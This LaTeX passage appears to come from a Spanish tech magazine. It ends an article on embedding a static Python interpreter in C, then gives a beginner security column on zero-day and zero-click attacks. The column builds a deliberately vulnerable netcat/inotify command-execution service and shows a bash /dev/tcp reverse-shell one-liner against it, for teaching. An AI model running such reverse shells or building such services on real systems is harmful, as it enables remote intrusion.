  {\verb!PyModule_GetState()!}.
\item
  El array con la definici�n de los m�todos que expone el m�dulo
\item
  El resto de par�metros se utilizan para a�adir funcionalidades
  especiales al m�dulo, las cuales no vamos a poder comentar en este
  art�culo. Si est�is interesados en profundizar en este tema, solo
  ten�is que hac�rnoslo saber.
\end{itemize}

Una vez definida esta estructura, solo necesitamos una funci�n adicional
para crear el m�dulo. En nuestro caso la hemos llamado
{\verb!PyInit_mimod!}. Esta funci�n adem�s de crear el
m�dulo, puede realizar operaciones adicionales requeridas por el m�dulo,
como reservar memoria, a adquirir recursos.

Llegados a este punto solo tenemos que a�adir el m�dulo al int�rprete.
Lo cual haremos con una l�nea como la siguiente:

\begin{lstlisting}[language=C]
  PyImport_AppendInittab ("mimod", &PyInit_mimod)
\end{lstlisting}

Como pod�is ver, esta funci�n recibe como par�metro la funci�n que hemos
definido antes y que es la encargada de crear realmente el m�dulo. Esta
funci�n hay que llamarla antes de
{\verb!Py_Initialize()!} para que nuestro m�dulo se
defina correctamente.

\pagebreak

\hypertarget{implementando-la-funciuxf3n.}{%
\sectiontext{white}{black}{IMPLEMENTANDO LA FUNCI�N}\label{implementando-la-funciuxf3n.}}

En este punto tenemos definido nuestro m�dulo
{\verb!mimod!} que incluye una funci�n llamada
{\verb!test1!}, la cual debe ser implementada por una
funci�n C que hemos llamado {\verb!mimod_test1!}.

Esta funci�n C hace lo mismo que la funci�n Python que usamos en la
primera parte del art�culo. Recibe como par�metro una cadena de
caracteres y dos n�meros. Muestra la cadena de caracteres en pantalla y
retorna la suma de los dos enteros. Super f�cil no?. Esta es la pinta
que tendr�a esa funci�n:

\begin{lstlisting}[language=C]
static PyObject*
mimod_test1 (PyObject *self, PyObject *args) {
 char  *str;
 int   a, b;
 
 if (!PyArg_ParseTuple (args, "sii", &str, &a, &b))
   return NULL;
 printf ("TEST1: Cadena: '%s' Suma: %d\n", str, a+b);
 
 return PyLong_FromLong(a+b);
}
\end{lstlisting}

Como ya sabemos, al tratarse de una funci�n de tipo
{\verb!METH_VARARGS!} recibe dos par�metros:
{\verb!self!} y los par�metros almacenados en una
tupla.

Las funciones de este tipo suelen obtener los par�metros utilizando la
funci�n {\verb!PyArg_ParseTuple!} que funciona como
una especie de {\verb!scanf!} para los par�metros. En
nuestro caso, la cadena de formato {\verb!sii!} le dice
a la funci�n que queremos extraer una cadena de caracteres
({\verb!s!}) y dos enteros {\verb!i!}.
Pod�is encontrar una lista completa de los valores que pod�is usar en la
cadena de formato en la
\href{https://docs.python.org/3/c-api/arg.html}{documentaci�n oficial}.

Para retornar el valor debemos convertir el valor que queramos en un
objeto {\verb!PyObject!}, as� que usaremos las mismas
funciones que necesitamos para llamar a funciones Python desde C. En
este caso, usamos {\verb!PyLong_FromLong!} para
retornar un valor entero.

\hypertarget{probando-nuestro-nuevo-python}{%
\sectiontext{white}{black}{PROBANDO NUESTRO NUEVO Python}\label{probando-nuestro-nuevo-python}}

Ha llegado la hora de probar nuestro programa, para ello vamos a
utilizar una versi�n modificada del nuestro script de prueba:

\begin{lstlisting}[language=Python]
import mimod

def foo (s, a, b):
   print ("cadena: " + s)
   c = mimod.test1 ("Adios Mundo", 1234, 4321)
   print (c)
   return a + b
\end{lstlisting}

En este caso estamos importando {\verb!mimod!} que es
el m�dulo que hemos creado y registrado en el int�rprete Python de
nuestra aplicaci�n. Mantenemos la funci�n {\verb!foo!}
que llama nuestro programa C, pero la extendemos para que llame a la
funci�n C {\verb!test1!} que exporta nuestro m�dulo. Si
compilamos y ejecutamos el programa obtendremos algo como esto:

\begin{lstlisting}
$ gcc -o example03 example03.c `python3-config \
> --cflags` `python3-config --ldflags --embed`
$ ./example03
ModuleNotFoundError: No module named 'func'
\end{lstlisting}

Oops, nuestro int�rprete no es capaz de encontrar nuestro script.
Podemos solucionar esto de distintas maneras. Copiando el fichero en uno
de los directorios que contienen m�dulos Python, o modificando la
variable de entorno {\verb!PYTHONPATH!} para que
incluya el directorio actual. Esta �ltima opci�n es m�s limpia y
sencilla:

\begin{lstlisting}
$ PYTHONPATH=. ./example03
cadena: Hola Mundo!
TEST1: Cadena: 'Adios Mundo' Suma: 5555
5555
Resultado : 30
\end{lstlisting}

Perfecto, ahora podemos escribir programas C capaces de ejecutar scripts
escritos en Python que pueden llamar a funciones internas definidas en
el propio programa.

\hypertarget{haciendo-el-programa-independiente}{%
\sectiontext{white}{black}{HACIENDO EL PROGRAMA INDEPENDIENTE}\label{haciendo-el-programa-independiente}}

En estos momentos, nuestro programa funciona perfectamente, pero esto
sucede solamente porque se dan dos condiciones. La primera es que el
int�rprete de Python est� instalado en nuestra m�quina de desarrollo.
Obviamente, necesitamos el int�rprete para escribir un programa que lo
use, sin embargo, nuestro ejemplo hasta el momento es un programa
din�mico que utiliza la librer�a {\verb!libpython.so!}
instalada en nuestro sistema.

El segundo problema es que adem�s de esa librer�a nuestro programa asume
que existe una instalaci�n de Python y, silenciosamente carga ciertos
m�dulos del sistema al inicializar el int�rprete.

Teniendo en cuenta todo esto, nuestro objetivo es generar un programa
que funcione como esperamos sin necesidad de instalar Python. Algo as�
como lo que hacen esas herramientas que convierte programas Python en
ejecutables. Haremos esto por partes solucionando los distintos
problemas de uno en uno.

\hypertarget{configurando-el-intuxe9rprete}{%
\sectiontext{white}{black}{CONFIGURANDO EL INT�RPRETE}\label{configurando-el-intuxe9rprete}}

Para poder conseguir nuestro objetivo lo primero que debemos hacer es
tomar el control de la configuraci�n de nuestro int�rprete.

Las nuevas versiones de Python incluyen un sistema para configurar el
int�rprete mucho m�s potente, permiti�ndonos elegir en detalle como
queremos configurar nuestro entorno. Pod�is consultar la documentaci�n
sobre {\verb!PyConfig!} para los detalles. Nosotros
solamente vamos a utilizar dos opciones.

Usando este sistema, lo primero que vamos a hacer es forzar a nuestro
int�rprete a funcionar en modo aislado, es decir, sin acceder a los
distintos m�dulos o librer�as instaladas en nuestro sistema. Adem�s nos
interesa poder controlar el path de b�squeda de m�dulos, para no tener
que usar la variable {\verb!PYTHONPATH!} cada vez que
ejecutamos nuestro programa\ldots{} vale si, la pod�is a�adir a los
scripts de inicializaci�n de bash, pero es mejor si nosotros mismos la
controlamos.

El c�digo siguiente muestra como utilizar el sistema de configuraci�n de
Python para hacer estas dos cosas.

\begin{lstlisting}[language=Python]
  PyStatus status;
  PyConfig config;

  PyConfig_InitPythonConfig (&config);
  
  config.module_search_paths_set = 1;
  config.isolated = 1;
  PyWideStringList_Append (&config.module_search_paths, L".");
  
  status = Py_InitializeFromConfig(&config);
  if (PyStatus_Exception(status)) {
    PyConfig_Clear(&config);
    Py_ExitStatusException(status);
  }
  PyConfig_Clear(&config);
\end{lstlisting}

Como pod�is ver, estamos activando el flag para definir el path de
b�squeda de m�dulos y queremos ejecutar el int�rprete en un entorno
aislado. En el path de b�squeda incluimos el directorio actual para
poder cargar nuestro m�dulo de prueba. En una aplicaci�n real,
probablemente queramos almacenar todos los scripts en un directorio
concreto. Este es el lugar para hacerlo.

Si compilamos y ejecutamos obtendremos algo como esto:

\begin{lstlisting}
$ ./example03
Python path configuration:
  PYTHONHOME = (not set)
  PYTHONPATH = (not set)
  program name = 'python3'
  isolated = 1
  environment = 0
  user site = 0
  safe_path = 1
  import site = 1
  is in build tree = 0
  stdlib dir = '/usr/lib/python3.11'
  sys._base_executable = '/usr/bin/python3'
  sys.base_prefix = '/usr'
  sys.base_exec_prefix = '/usr'
  sys.platlibdir = 'lib'
  sys.executable = '/usr/bin/python3'
  sys.prefix = '/usr'
  sys.exec_prefix = '/usr'
  sys.path = [
    '.',
  ]
Fatal Python error: init_fs_encoding: failed to get the Python codec of the filesystem encoding
Python runtime state: core initialized
ModuleNotFoundError: No module named 'encodings'

Current thread 0x00007f1ce9222740 (most recent call first):
  <no Python frame>
\end{lstlisting}

El programa muestra la configuraci�n actual y el error que impide la
ejecuci�n del mismo. En este caso indica que no puede encontrar el
m�dulo {\verb!encodings!}. Uno de esos m�dulos que se
usan en la inicializaci�n.

\hypertarget{auxf1adiendo-los-muxf3dulos-perdidos}{%
\sectiontext{white}{black}{A�ADIENDO LOS M�DULOS PERDIDOS}\label{auxf1adiendo-los-muxf3dulos-perdidos}}

As� que lo que vamos a hacer es incluir los m�dulos que necesitemos.
Para ello crearemos un directorio llamado {\verb!libs!}
(pero pod�is llamarlo como quer�is) he iremos copiando en el los m�dulos
que necesitemos. Pero antes debemos a�adir este nuevo directorio al path
de b�squeda de m�dulos. Algo como esto:

\begin{lstlisting}[language=Python]
PyWideStringList_Append (&config.module_search_paths,
                           L".");
PyWideStringList_Append (&config.module_search_paths,
                           L"./libs");
\end{lstlisting}

Ahora podemos copiar el m�dulo {\verb!encodings!} que
deber�a encontrarse en {\verb!/usr/lib/pythonX.Y!}
donde {\verb!X.Y!} es la versi�n de Python que estemos
usando.

Cada uno de los directorios puede contener varios ficheros de los cuales
puede que no necesitemos todos. En mi caso, y para este ejemplo, en el
directorio {\verb!encodings!} solo necesito mantener
los ficheros:

\begin{lstlisting}
__init__.py
aliases.py
utf_8.py
utf_8_sig.py
\end{lstlisting}

Siguiendo este proceso, mi ejemplo necesita un directorio de unos 236Kb.
Tened en cuenta que en cuanto ejecut�is el programa la primera vez,
todos esos ficheros se compilan en byte codes y se almacenan en un
directorio llamado {\verb!__pycache__!} en cada
subdirectorio de {\verb!lib!}. Pod�is usar el contenido
de ese directorio para ver que m�dulos se utilizan y cuales no.

De esta forma hemos solucionado uno de nuestros problemas. Disponemos de
una forma de incluir los m�dulos Python que necesitemos de una manera
controlada. Ahora vamos a solucionar nuestro otro problema.

\hypertarget{generando-un-binario-estuxe1tico}{%
\sectiontext{white}{black}{GENERANDO UN BINARIO EST�TICO}\label{generando-un-binario-estuxe1tico}}

Nuestro siguiente problema es incluir el int�rprete de Python en nuestro
programa de forma que podamos usar c�digo Python independientemente de
si est� instalado o no.

Para ello solo necesitamos incluir la librer�a est�tica
{\verb!libpython.a!} y algunas de sus referencias.

La forma de compilar el programa ser�a algo as�:

\begin{lstlisting}
gcc -static -fPIE -o test example03.c \
-I/usr/include/python3.11 -O2 -Wall \
-L/usr/lib/python3.11/config-3.11-x86_64-linux-gnu \
-L/usr/lib/x86_64-linux-gnu \
-lpython3.11 -lm -ldl -lz -lexpat
\end{lstlisting}

El comando anterior genera un monton de warnings del tipo:

\begin{lstlisting}
/usr/bin/ld: /usr/lib/python3.11/config-3.11-x86_64-
linux-gnu/libpython3.11.a(socketmodule.o): in function
`socket_getservbyport':
(.text.unlikely+0x3837): warning: Using 'getservbyport'
in statically linked applications requires at runtime
the shared libraries from the glibc version used for
linking
\end{lstlisting}

Sin entrar en detalles, hay ciertas funciones de libC que seleccionan el
c�digo a ejecutar de forma din�mica en tiempo de ejecuci�n. Un ejemplo
t�pico son las funciones de resoluci�n de nombre que dependiendo de la
configuraci�n del sistema pueden hacer una petici�n DNS, una consulta
LDAP o leer el fichero {\verb!hosts!}. Si vuestro
programa necesita utilizar alguna de esas funciones, quiz�s tendr�is que
proporcionar una alternativa propia.

As� que llegados a este punto disponemos de un binario est�tico que
incluye el int�rprete Python y un directorio que contiene el conjunto
m�nimo de m�dulos que necesitamos\ldots{} Que tal si los combinamos?

\hypertarget{incluyendo-los-muxf3dulos-en-el-binario}{%
\sectiontext{white}{black}{INCLUYENDO LOS M�DULOS EN EL BINARIO}\label{incluyendo-los-muxf3dulos-en-el-binario}}

Hay distintas formas de hacer esto, pero nosotros vamos a implementar la
m�s directa, aunque, todo hay que decirlo, es bastante guay :). El
proceso consta de tres pasos.

\begin{itemize}

\item
  Incluir el directorio de m�dulos en el binario
\item
  Descomprimir los m�dulos al comenzar la ejecuci�n del programa
\item
  Borrar el directorio de m�dulos al terminar.
\end{itemize}

Para incluir los m�dulos, lo primero que haremos ser� crear un fichero
{\verb!tar!} del directorio que los contiene. Recordad
que no necesitamos los ficheros compilados, si bien, si los incluimos el
programa se iniciar� un poco m�s r�pido. Si no queremos incluir el cache
podemos generar el fichero de la siguiente forma:

\begin{lstlisting}
$ tar czvf libs.tgz --exclude=__pycache__ ./libs
\end{lstlisting}

Ahora convertiremos este fichero en un objeto ELF que podamos linkar con
nuestra aplicaci�n\ldots. No me digas que esto no mola.

\begin{lstlisting}
$ objcopy -I binary -O elf64-x86-64 libs.tgz  libs.o
\end{lstlisting}

Ahora podemos recompilar nuestro programa incluyendo este nuevo objeto:

\begin{lstlisting}
gcc -static -o example04 example04.c \
-I/usr/include/python3.11 -fPIE -O2 -Wall \
-L/usr/lib/python3.11/config-3.11-x86_64-linux-gnu \
-L/usr/lib/x86_64-linux-gnu -lpython3.11 \
-lm -ldl -lz -lexpat libs.o
\end{lstlisting}

Las �nica diferencia aqu� es que estamos incluyendo nuestro fichero tar
al final, pero como un objeto ELF\ldots{} Y os preguntar�is cual es la
diferencia de hacer esto a un simple {\verb!cat >>!}.
Esa es una fant�stica pregunta y la respuesta es esta:

\begin{lstlisting}
$ readelf -Ws example04 | grep libs
 22255: 0000000000bcc758     0 NOTYPE  GLOBAL DEFAULT   21 _binary_libs_tgz_end
 23049: 0000000000bc0b48     0 NOTYPE  GLOBAL DEFAULT   21 _binary_libs_tgz_start
 24221: 000000000000bc10     0 NOTYPE  GLOBAL DEFAULT  ABS _binary_libs_tgz_size
\end{lstlisting}

Sip, de esta forma tendremos acceso desde nuestro programa a estos
s�mbolos que nos dir�n en que parte de la memoria se ha cargado nuestro
fichero tar. Enseguida veremos como usar estos s�mbolos:

\hypertarget{descomprimiendo-el-directorio-de-muxf3dulos}{%
\sectiontext{white}{black}{DESCOMPRIMIENTO EL DIRECTORIO DE M�DULOS}\label{descomprimiendo-el-directorio-de-muxf3dulos}}

Para poder descomprimir el directorio de m�dulos, tendremos que volcar
el fichero tar que ahora est� en memoria a�adiendo un poco de c�digo al
principio del programa. Algo como esto:

\begin{lstlisting}[language=C]
extern int _binary_libs_tgz_start;
extern int _binary_libs_tgz_size;

int
main(int argc, char *argv[])
{
  mkdir ("/tmp/example04", 0777);
  int fd = open ("/tmp/example04/libs.tgz",
                O_CREAT | O_WRONLY, 0777);
  write (fd, &_binary_libs_tgz_start,
                (long)&_binary_libs_tgz_size);
  close (fd);
  system ("tar xzf /tmp/example04/libs.tgz "
           "-C /tmp/example04");
  (...)
\end{lstlisting}

Puesto que los s�mbolos vienen de otro m�dulo, debemos declararlos como
externos. Observad que lo que obtenemos es el s�mbolo, es decir, el
nombre que le damos a alg�n valor, o su posici�n en memoria. As�, la
forma de acceder a los valores asociados a los s�mbolos
{\verb!_binaryXXX!} es utilizando el operador
{\verb!&!} . Una vez que sabemos esto, lo �nico que
tenemos que hacer es crear un directorio temporal, volcar los datos en
el y descomprimir el fichero.

En este caso hemos usado {\verb!system!} para llamar a
{\verb!tar!} en lugar de descomprimir el fichero
nosotros mismos.

Al final del programa, antes de terminar, a�adiremos una l�nea como esta
para limpiar nuestros restos:

\begin{lstlisting}[language=C]
  system ("rm -Rf /tmp/example04");
\end{lstlisting}

Dos comentarios finales. El primero es recordaros que
{\verb!system!} es una funci�n peligrosa. En este caso
estamos usando cadenas est�ticas, pero en general es mejor evitarla.
Para el tema que nos ocupa no es relevante como creamos o borramos
directorios, pero ten�amos que hacer este comentario.

El segundo es que si ten�is demasiadas dependencias quiz�s no os
interese incluir {\verb!libs.tgz!} de la forma en la
que lo hemos hecho, es decir, cargando todo su contenido en memoria
simplemente para volcarlo en el disco. En ese caso es mejor incluir el
fichero al final de nuestro ejecutable y utilizar alg�n tipo de
informaci�n extra o marca para extraer el contenido directamente del
disco, ahorrando memoria\ldots{} pero el m�todo usando
{\verb!objcopy!} era tan g�ay que no nos pudimos
resistir :).

\hypertarget{conclusiones}{%
\sectiontext{white}{black}{CONCLUSIONES}\label{conclusiones}}

Y esto es todo. Hemos visto como integrar un int�rprete Python en
nuestros programas en C y como podemos ejecutar c�digo Python desde C y
c�digo C desde Python. Tambi�n hemos visto como configurar nuestro
int�rprete y como generar un programa est�tico que incluye el int�rprete
de Python as� como los m�dulos que podamos necesitar para su ejecuci�n.

A�n cuando hemos intentado reducir los distintos elementos del programa
al m�nimo, el ejecutable resultante es de 9 Mb\ldots{} un tama�o similar
al que obtendr�amos compilando nuestro m�dulo Python con Cython. Como
pod�is ver el programa crece mucho y manejar los m�dulos y librer�as que
dependen de �l no es trivial. Quiz�s esta sea la raz�n por la que Python
no es la versi�n m�s popular para incluir un lenguaje de script en un
programa\ldots{} \EOP

\end{multicols}

\hypertarget{seguridad:zero1}{}\label{seguridad:zero}

\pagestyle{seguridad}

\rput(7.9,-4.5){\resizebox{!}{17cm}{{\epsfbox{images/articulos/security_header.eps}}}}

\vspace{6cm}

\psset{fillstyle=solid}
\psframe[fillcolor=black,opacity=0.7](2,-4.5)(17,0)



% -------------------------------------------------
% Cabecera
\begin{flushright}


{\color{introcolor}\mtitle{14cm}{SEGURIDAD PARA MEROS MORTALES}}

\msubtitle{8cm}{Doble cero, con licencia para Hackear}

{\sf\color{white}{ por Andr�s ``Andy'' Pajuaker}}

%{{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}}
\end{flushright}


\vspace{2mm}
% -------------------------------------------------


%\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\footnotesize}
\lstset{language=C,frame=tb,framesep=5pt,basicstyle=\scriptsize}



\intro{introcolor}{V}{ale, me he venido muy arriba con el titulo pero no he podido evitarlo.
LoL. Dejando a un lado lo c�mico que puede sonar, realmente el t�tulo es
bastante apropiado. Ya hablamos de los \emph{Zero Days} en un art�culo
anterior y en esta ocasi�n vamos a ver que pasa cuando los combinamos
con los denominados \emph{Zero Clicks}.}


\begin{multicols}{2}


A modo de recordatorio, en el mundo de la seguridad inform�tica, un
\emph{Zero Day} es una vulnerabilidad explotable que todav�a no es
p�blica. De hecho, el t�rmino se aplica normalmente al \emph{exploit}
que usa esa vulnerabilidad para evitar alg�n tipo de sistema de
seguridad. Para los m�s despistados, los \emph{exploits} son programas
que abusan alg�n tipo de error en otros programas (vulnerabilidades)
para conseguir hacer algo que en general no esta permitido.

Si quieres leer m�s sobre todo esto te recomendamos nuestro art�culo:

\href{https://ibolcode.net/roor/2018-07-seguridad-para-meros-mortales--exploits}{Seguridad
para Meros Mortales. Exploits},

donde os explicamos todos estos
conceptos en mucho m�s detalle.

\hypertarget{one-click-exploits}{%
\sectiontext{white}{black}{ONE CLICK EXPLOITS}\label{one-click-exploits}}

La mayor�a de las brechas de seguridad requieren que el usuario realice
alguna acci�n. Lo m�s habitual es enga�arlo para que pulse un
determinado enlace, o ejecute alg�n programa que se haya descargado de
alg�n sitio de dudosa reputaci�n en Internet. T�cnicas como el Phishing
o Spear Phishing son los m�todos m�s habituales.

A veces tambi�n se abusa de la curiosidad humana. Un atacante malicioso
puede dejar una memoria USB con software malicioso en alg�n lugar en el
que la v�ctima lo pueda encontrar. Es muy probable que la v�ctima
directamente conecte el USB a su ordenador para \emph{ver que tiene}.
Una vez que ha hecho eso, todo tipo de cosas malas pueden ocurrir.
Ficheros que parecen im�genes pueden contener malware, o documentos
pueden ejecutar malware al ser abiertos, o incluso el USB no es una
memoria sino un teclado virtual y puede escribir el malware ante tus
propios ojos.

Teniendo esto en cuenta podemos definir los primeros Mandamientos de los
Usuarios seguros:

\begin{itemize}

\item
  No pinchar�s en enlaces desconocidos.
\item
  No pinchar�s memorias USB de origen desconocido.
\item
  No ejecutar�s programas de dudosa procedencia.
\item
  No abrir�s documentos de origen desconocido.
\item
  No asumir�s que los mensajes proceden de quien dicen proceder.
\end{itemize}

Siguiendo estos mandamientos estaremos bastante seguros, sin embargo, es
posible que alguien que conocemos haya sido hackeado y documentos
enviados por esa persona est�n infectados. En ese caso debemos a�adir un
nuevo mandamiento.

\begin{itemize}

\item
  Mantendr�s tu sistema y antivirus actualizado
\item
  Nunca ejecutar�s programas como Administrador
\end{itemize}

Bueno, siguiendo estos mandamientos la mayor�a de nosotros estaremos
bastante a salvo. De hecho, podr�amos pensar que si no pulsamos en
absolutamente nada que recibamos a trav�s de fuentes externas estar�amos
a salvo.�Verdad?\ldots{} Pues no.

\hypertarget{zero-click}{%
\sectiontext{white}{black}{ZERO CLICKS}\label{zero-click}}

Los ordenadores hoy en dia hacen un mont�n de cosas por nosotros. Cuanto
m�s \emph{f�cil de usar}, normalmente m�s cosas hace por nosotros, lo
que significa que hay muchos programas que est�n siendo ejecutados por
el ordenador todo el tiempo, muchos de ellos procesando datos que
provienen del exterior.

Por ejemplo, pensad en vuestra aplicaci�n de mensajer�a preferida.
Cuando recib�s un mensaje, la mayor�a de vosotros ver�is una
notificaci�n en la que aparecen las primeras l�neas del mensaje
recibido\ldots{} Eso es exactamente lo mismo que \emph{pinchar} en algo.
En este caso pinchar en el mensaje recibido. El programa de notificaci�n
tiene que abrir y procesar el mensaje para poder mostrarlo.

\begin{entradilla}
{\em Algunos exploits se pueden ejecutar sin que el usuario realice ninguna acci�n. Son los ZERO-CLICKS}
\end{entradilla}

Si el c�digo que lee el mensaje para mostrar la notificaci�n tiene una
vulnerabilidad, un atacante podr�a enviar un mensaje malicioso que
explotase esa vulnerabilidad y le diera acceso al dispositivo de alguna
forma\ldots. Y en ese caso no habr�amos pulsado nada.

Este tipo de ataques se conocen como \emph{Zero Click} es decir, se
ejecutan de forma autom�tica junto con tareas normales del sistema sin
que el usuario tenga que hacer absolutamente nada, lo cual es
super-inquietante ya que esto significa que cualquier dispositivo puede
ser hackeado remotamente sin que el usuario se entere en absoluto. Da
miedito.

\hypertarget{doble-zero}{%
\sectiontext{white}{black}{DOBLE ZERO}\label{doble-zero}}

Como os pod�is imaginar, un ataque \emph{Zero Click} que adem�s es un
\emph{Zero Day} es algo tremendamente valioso, por el que ciertas
organizaciones pagar�an grandes cantidades de dinero. B�sicamente esto
significa que cualquier dispositivo puede ser hackeado en cualquier
momento sin que su propietario se entere de nada. Bueno, cualquier
dispositivo que ejecute el programa con el \emph{Zero day} y el
\emph{Zero Click}.

El famoso malware
\href{https://en.wikipedia.org/wiki/Pegasus_(spyware)}{\emph{Pegasus}}
utilizado por gobiernos de todo el mundo para esp�ar a distintos
ciudadanos (criminales y no) usaba varios de estos doble ceros, raz�n
por la cual su precio era tan elevado.

Debemos entender que lo realmente valioso es la combinaci�n de estos dos
casos. Un \emph{Zero Click} que es conocido, muy probablemente ser�
parcheado y si nuestro sistema se actualiza regularmente, muy
probablemente no ser� un problema para nosotros. Pero cuando adem�s es
un \emph{Zero Day}, nadie sabe que existe, as� que nadie est� intentando
arreglarlo, con lo cual es indetectable.

Para entender como funciona todo esto vamos a hacer un ejemplo muy
sencillo a modo de ilustraci�n.

\hypertarget{un-servicio-vulnerable}{%
\sectiontext{white}{black}{UN SERVICIO VULNERABLE}\label{un-servicio-vulnerable}}

Vamos a crear un servicio vulnerable con un \emph{Zero Click} del cop�n.
El servicio mola bastante. Cualquiera puede escribir una serie de
comandos en un determinado fichero y el servicio ejecutar� el comando y
nos mostrar� el resultado en una notificaci�n en el escritorio. As�, por
ejemplo podemos recibir una notificaci�n cuando nuestra descarga o
nuestra compilaci�n finaliza\ldots. Mola que no?

De hecho, esto lo podemos implementar en una sola l�nea usando el
servicio {\verb!inotify!} del kernel. Para ello debemos
instalar el paquete:

\begin{lstlisting}
sudo apt install inotify-tools
\end{lstlisting}

Una vez instalados, solo tenemos que ejecutar esta l�nea:

\begin{lstlisting}
$ while inotifywait -e close_write /tmp/cmd; \
> do notify-send RESULT "`. /tmp/cmd`"; done 
\end{lstlisting}

El programa {\verb!inotifywait!} nos avisar� cada vez
que se escriba algo en el fichero {\verb!/tmp/cmd!}. De
ser as� usar� {\verb!notify-send!} para mostrar una
notificaci�n en el escritorio con el resultado de la ejecuci�n de lo que
sea que hayamos escrito en {\verb!/tmp/cmd!}

As�, simplemente haciendo algo como esto:

\begin{lstlisting}
$ echo "echo Hello World" > /tmp/cmd
\end{lstlisting}

Mostrar� ese mensaje {\verb!Hello World!} en un pop-up
en pantalla. O:

\begin{lstlisting}
$ echo "wget https://servidor.com/ficheroguay.tgz \
        && echo 'Descarga Finalizada'" > /tmp/cmd
\end{lstlisting}

Ahora vamos a convertir esto en un servicio de notificaciones remotas.
Para ello, en otra consola vamos a ejecutar el siguiente comando:

\begin{lstlisting}[language=bash]
$ while true; do nc -lvp 4444 > /tmp/cmd; sync; done
\end{lstlisting}

Esta l�nea ejecuta en un bucle infinito una instancia de netcat que
volcar� lo que reciba de la red en {\verb!/tmp/cmd!}
para que sea ejecutado por nuestro servicio. Hemos tenido que usar
{\verb!sync!} para asegurarnos que el fichero se ha
actualizado en el disco cuando {\verb!inotifywait!}
recibe el evento.

Ahora podemos ejecutar comandos de forma remota de esta guisa:

\begin{lstlisting}
$ echo "echo 'Hello Wolrd'" | nc -N  localhost 4444
\end{lstlisting}

\columnbreak

\hypertarget{un-exploit}{%
\sectiontext{white}{black}{UN EXPLOIT}\label{un-exploit}}

Ya disponemos de un servicio vulnerable. Ahora veamos como explotarlo,
lo cual es tremendamente sencillo, ya que el servicio en si nos permite
la ejecuci�n remota de comandos. Para comprobarlo, en un nuevo terminal,
o incluso en una m�quina distinta, vamos a lanzar un \emph{Netcat} en
modo servidor con la l�nea:

\begin{lstlisting}
$ nc -lvp 5555
\end{lstlisting}

Si, ahora mandamos la siguiente l�nea a nuestro servicio de ejecuci�n
remota

\begin{lstlisting}
$ echo "(bash -i >& /dev/tcp/127.0.0.1/5555 0>&1)&" \
> | nc -N localhost 4444
\end{lstlisting}

Obtendremos en la primera ventana una shell a la m�quina remota. Si
est�s haciendo esto en la misma m�quina, puede resultar confuso y
parecer que no ha ocurrido nada. Para que no haya dudas lo mejor es que
ejecutes el servidor netcat como un usuario distinto, de forma que
puedas verificar que, una vez env�as el mensaje de arriba, la shell que
obtenemos en Netcat es la del usuario que ejecutar el servicio, es
decir, el peque�o bucle que espera notificaciones y ejecuta el script.


La l�nea que enviamos se conoce como un \emph{Reverse Shell} o
\emph{Shell Inverso} ya que la m�quina a la que queremos acceder es la
que inicia la conexi�n. La l�nea usa la capacidad de {\verb!bash!} de establecer conexiones TCP usando {\verb!/dev/tcp/IP/port!}. Una vez creada la conexi�n simplemente redirigimos las entradas y salidas. El primer {\verb!>&!} duplica {\verb!stdout!} y{\verb!stderr!} para que apunten al socket. El {\verb!0>&1!} hace que {\verb!stdin!} (0) apunte al descriptor de fichero 1 que en este caso es el socket. En otras palabras {\verb!bash!} deja de escribir y leer de
la consola y ahora lo har� en el socket, es decir, en la conexi�n TCP.

\begin{entradilla}
{\em BASH nos permite hacer conexiones de red y lanzar Reverse Shell en una sola l�nea}
\end{entradilla}

Como pod�is ver, esto, adem�s de una cagada monumental de servicio, es
un \emph{Zero Click}. Sin que el usuario realice ninguna acci�n, un
atacante puede obtener acceso shell a la m�quina simplemente enviando un
mensaje malicioso. En estos casos no hay mucho que hacer m�s all� de
esperar por una nueva versi�n del desarrollador que arregle el problema
o dejar de usar el servicio. Bueno, si se trata de Software libre
siempre tendremos la tercera opci�n de corregir el problema nosotros
mismos :).

\hypertarget{detecciuxf3n.-edrs}{%
\sectiontext{white}{black}{DETECCI�N. EDRs}\label{detecciuxf3n.-edrs}}

El caso de los \emph{Zero Click} es especialmente complicado ya que el
usuario al que afectan no hace nada mal. Puede seguir todas las normas
de seguridad recomendadas a rajatabla y a�n as� ser infectado por alg�n
tipo de malware.

Lo que tenemos que tener claro que se trata de un tipo de bug, no de un
malware directamente. Lo que esto significa es que, el \emph{Zero Click}
es la forma que utilizar� un atacante para instalar un determinado
Malware. Si el Malware que instalan es conocido, tu antivirus
probablemente lo detecte y en caso de que utilice la red, una buena
configuraci�n del firewall podr� limitar los da�os que pudiera causar.

Si el Malware no es conocido, la �nica forma de plantar cara a esta
situaci�n es utilizar algunos de los elementos comunes en los
denominados EDR \emph{End Point Detection and Response} o
\emph{Detecci�n y Respuesta de punto final}. Estos sistemas intentan
identificar comportamientos sospechosos y bloquearlos. La gran ventaja
de estos sistemas es que son capaces de detectar malware desconocido
simplemente analizando lo que hacen, sin embargo las desventajas son
varias.
\begin{entradilla}
{\em Los EDR (End-Point Detection and Response) permiten detectar algunas de estas amenazas cuando est�n ocurriendo.}
\end{entradilla}


La primera y m�s importante es que hacer eso requiere monitorizar un
mont�n de cosas y eso tiene un coste en el rendimiento del sistema. La
segunda es que el sistema, especialmente hasta que se ajusta a las
necesidades de sus usuarios, puede producir muchos falsos positivos que
pueden hacer muy frustrante el uso de la m�quina.


Debido a estas razones estos sistemas solo se suelen utilizar en
entornos corporativos en los que hay un gran n�mero de m�quinas y los
an�lisis y reglas en cada una de ellas se pueden f�cilmente trasladar al
resto que se beneficia inmediatamente de esos resultados. Adem�s, en
estos entornos es m�s f�cil imponer condiciones mucho m�s restrictivas
que permiten mantener el sistema m�s seguro, muchas veces a costa de
limitar su usabilidad.

Los EDRs se pueden ver como un sistema de adquisici�n y fusi�n de datos
procedentes de distintas aplicaciones como por ejemplo, \emph{Sandboxes}
o m�quinas virtuales en las que se ejecuta cierto software para
verificar si realiza algo malicioso, antivirus que utilizan tanto
escaneo de signaturas de ficheros como t�cnicas de an�lisis heur�stico
para determinar si cierto programa es peligroso, firewalls, sistemas de
back-up\ldots{} etc\ldots{}

A un nivel m�s dom�stico el activar el an�lisis heuristico del antivirus
puede ayudar, si bien, como ya dijimos, se va a notar en el rendimiento
de la m�quina.

Resumiendo, no est� todo perdido si existe un \emph{Zero Click} en
nuestra m�quina, aunque su prevenci�n tiene un coste. Lo negativo es que
la mayor�a de los usuarios no estamos dispuestos a pagar ese coste.

\end{multicols}
\pagebreak
\begin{multicols}{2}

\hypertarget{denegaciuxf3n-plausible}{%
